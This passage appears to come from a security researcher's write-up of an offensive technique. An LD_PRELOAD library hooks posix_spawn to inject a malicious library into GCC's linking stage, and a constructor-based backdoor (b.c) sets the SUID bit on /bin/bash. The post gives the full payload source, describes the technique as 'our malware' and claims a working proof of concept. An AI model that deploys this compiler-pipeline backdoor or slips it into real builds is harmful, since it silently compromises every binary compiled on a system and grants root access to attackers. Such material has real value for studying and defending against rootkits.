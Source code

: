 This hook ensures that even when `gcc` or `ld` use `posix_spawn` internally, the malicious library will still be injected. It is a layer of compatibility that makes the our malware even more effective.

The entire mechanism is activated when the library compiled with this `main.c` is loaded via LD_PRELOAD, a legitimate Linux feature used to replace functions from standard libraries. Any compilation performed on the system can be automatically compromised.

## Malicious code: b.c

The purpose of the b.c code is to modify the permissions of `/bin/bash` to allow it to be executed with elevated privileges.

```c
#include <unistd.h>
#include <sys/stat.h>

__attribute__((constructor)) 
void backdoor() {
    chmod("/bin/bash", 04755);
}
```

In other words, as soon as some code is compiled using GCC, for example, it will inject our backdoor inside, and if executed as root, it will set the `SUID` on `/bin/bash`.

## POC


![imgur](https://i.imgur.com/ZSM4udM.png)

Conclusion
---------

With this simple hook, we’re able to intercept GCC’s compilation pipeline and inject a malicious library during the linking stage, all without modifying the source code.

The result is a seemingly legitimate binary that silently carries a hidden payload, ready to be executed.

Please feel free to contact me on [Twitter](https://x.com/MatheuzSecurity) if you have any questions.

[Rootkit Researchers](https://discord.gg/66N5ZQppU7)

